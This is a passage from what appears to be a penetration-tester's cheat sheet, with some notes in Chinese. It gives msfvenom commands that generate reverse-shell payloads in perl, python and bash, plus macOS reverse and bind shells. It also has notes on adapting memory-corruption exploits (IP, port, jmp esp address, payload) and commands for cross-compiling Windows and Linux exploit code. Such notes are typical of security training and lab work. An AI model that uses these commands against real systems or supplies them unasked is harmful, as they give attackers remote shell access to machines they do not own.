```bash
# perl reverse shell
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl

# python reverse shell
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py

# bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```

## Mac

```bash
# reverse shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho

# bind shell
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```


# compile exploit
+ cross compile for windows and linux
+ 默认payload需要修改
+ return-address 写错
+ mem corruption exploit
  > read and excercise
  > 1. 修改ip端口
  > 2. 修改jmp esp 地址
  > 3. 修改payload


## compile on armkali
+ cross compile exploit on arm kali.
+ check this, [how to use mingw compile windows exp](https://null-byte.wonderhowto.com/how-to/use-mingw-compile-windows-exploits-kali-linux-0179461/)

```bash
# cross compile winodes exp
## https://null-byte.wonderhowto.com/how-to/use-mingw-compile-windows-exploits-kali-linux-0179461/
apt install mingw-w64

## check the gcc
apt-cache search mingw-w64

## compile win exp
x86_64-w64-mingw32-gcc shell.c -o shell-64.exe
i686-w64-mingw32-gcc shell.c -o shell-32.exe

# cross compile linux x86 exp
sudo apt install gcc-i686-linux-gnu
sudo apt install gcc-x86-64-linux-gnu

## compile for linux x86 32 bit
i686-linux-gnu-gcc -o setuid-x86 setuid.c

## compile for linux x86_64
x86_64-linux-gnu-gcc setuid.c -o setuid-x86_64
```

